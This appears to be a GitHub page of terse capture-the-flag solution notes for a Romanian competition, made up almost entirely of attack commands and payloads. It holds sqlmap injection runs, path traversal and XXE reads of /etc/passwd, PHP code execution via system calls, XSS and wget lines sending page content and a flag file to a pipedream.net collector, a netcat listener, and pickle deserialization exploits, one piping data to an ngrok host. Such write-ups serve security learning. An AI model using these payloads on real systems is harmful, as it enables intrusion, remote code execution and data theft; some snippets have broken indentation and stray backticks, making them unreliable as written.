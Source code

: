 # writeups

## https://blog.kuhi.to/unbreakable-romania-2-writeup

### Small data leak

```sqlmap -u http://35.198.183.125:30321/user?id=1;```

```sqlmap -u http://35.198.183.125:30321/user?id=1 --dbs```

```sqlmap -u http://35.198.183.125:30321/user?id=1 -D public --tables```

````sqlmap -u http://35.198.183.125:30321/user?id=1 -D public -T 'ctf{70ff919c37a20d6526b02e88c950271a45fa698b037e3fb898ca68295da' --columns```


### File Crawler

```http://34.141.25.94:32191/local?image_name=..//..//..//etc/passwd```

```http://34.141.25.94:32191/local?image_name=..////tmp//flag```


### Substitute
```http://35.246.170.233:31993/?vector=/Admin/e&replace=phpinfo()````

```http://35.246.170.233:31993/?vector=/Admin/e&replace=system("ls -l")```

```http://35.246.170.233:31993/?vector=/Admin/e&replace=system("ls here_we_dont_have_flag -l")```

```http://35.246.170.233:31993/?vector=/Admin/e&replace=system("cat here_we_dont_have_flag/flag.txt")```


### manual-review
```
<script>
    window.location.href = "https://eoifpwfcq85jqhy.m.pipedream.net"
</script>
```

### syntax check

burpsuite
```
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "/etc/passwd">
]>
<foo>&exfiltrate;</foo>
```

```
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/flag">
]>
<foo>&exfiltrate;</foo>
```
### Under Construction
https://github.com/ticarpi/jwt_tool
```
python3 jwt_tool.py -t http://35.198.93.134:30791/api/app/admin -rc
"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTIsImlhdCI6MTYzNTkzNjY4OCwiZ
XhwIjoxNjM2MDIzMDg4fQ.tQ2KlBU8tI5V1Akiqhwy2LSEOF9oBTvnYFs_xgwro04" -C -d
~/sss.txt 
```
https://jwt.io/

### Downloader v1

ngrok needed

ngrok http 7777

nc - lvnp 7777

https://eoifpwfcq85jqhy.m.pipedream.net/test.php --post-file '/var/www/html/flag.php'


###  Framable
```
<script>
    let html = document.body.innerHTML;
    window.location.href = "https://eoifpwfcq85jqhy.m.pipedream.net?bob=" + btoa(html)
</script>
```
atob('')

### alfa-cookie

```
import requests
import pickle
from pwn import *
url = "http://35.198.93.134:30049/dashboard"
    class RCE:
        def __reduce__(self):
        cmd = ('cat flag | nc 2.tcp.ngrok.io 17855')
        return os.system, (cmd,)
        
payload = pickle.dumps(RCE(), protocol=2)
print(payload)
key = len(payload) * "A"
auth_cookie = xor(payload, key).hex()

r = requests.get(url, cookies={"key": key, "auth_cookie": auth_cookie})
```

https://blog.kuhi.to/unbreakable-romania-2-writeup

### Rundown
```
curl -X POST http://35.246.170.233:32274/ > o.html
```

```
import pickle as cPickle
import base64
import os
import string
import requests
import time
class Exploit(object):
    def __reduce__(self):
        return (eval, ('eval(open("flag","r").read())', ))
def sendPayload(p):
    newp = base64.urlsafe_b64encode(p).decode()
    headers = {'Content-Type': 'application/T3jv1l'}
    r = requests.post("http://34.107.45.139:30396/",headers=headers,data=newp)
    return r.text
    
payload_dec = cPickle.dumps(Exploit(), protocol=2)
print("ctf{" + sendPayload(payload_dec).split("ctf{")[1].split("}")[0] +"}")
```
